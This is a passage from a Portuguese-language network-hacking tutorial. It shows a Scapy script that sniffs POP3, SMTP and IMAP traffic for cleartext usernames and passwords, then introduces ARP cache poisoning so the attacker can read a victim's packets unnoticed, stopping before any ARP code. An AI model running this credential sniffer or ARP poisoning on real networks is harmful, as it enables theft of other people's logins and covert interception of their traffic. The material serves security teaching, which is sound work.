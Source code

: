 Exemplo:

- A expressão `src 192.168.100.55` especifica que queremos pacotes vindo apenas de 192.168.100.55.
- A expressão `tcp port 25 or tcp port 100` especifica que queremos apenas pacotes TCP das portas 25 ou 100

Agora escreveremos nossos sniffer específico usando a sintaxe BPF:

```py
from scapy.all import sniff, TCP, IP

def packet_callback(packet):
    if packet[TCP].payload:
        # Para o payload do pacote
        mypacket = str(packet[TCP].payload)
        # Procuramos algo como USERNAME e PASSWORD, para achar as credenciais de emails na rede
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():
            print(f'[*] Destino: {packet[IP].dst}')
            print(f'[*] {mypacket}')
    
def main():
    # Mudamos a configuração para ouvir as portas 110 (POP3), 25 (SMTP) e 143 (IMAP) atrás de achar relacionamentos com email
    sniff(filter='tcp port 110 or tcp port 25 or tcp port 143',
          prn=packet_callback, store=0)

if __name__ == '__main__':
    main()
```

Agora com o sniffing de emails feito, podemos passar para o próximo passo: envenenamento ARP para que possamos receber pacotes de outros IPs e lê-los sem que a vítima perceba.

### Evenenamento de cache ARP com o Scapy

O [evenenamento ARP](https://www.geeksforgeeks.org/arp-spoofing-and-arp-poisoning/) é uma técnica antiga que muda a forma com que a rede entende os endereços de envio das mensagens.

O protocolo ARP (Address Resolution Protocol) nada mais é que uma tabela com os endereços físicos dos computadores da rede (MAC - Media Access Control - addresses) associados aos endereços de IP e que é armazenada em uma memória cache em cada máquina. 

Neste ataque, modificaremos a tabela de forma a trocar o MAC do IP da vítima para o nosso IP de ataque. Ao invés de enviar/receber pacotes para o roteador/switch a vítima enviará para no atacante:
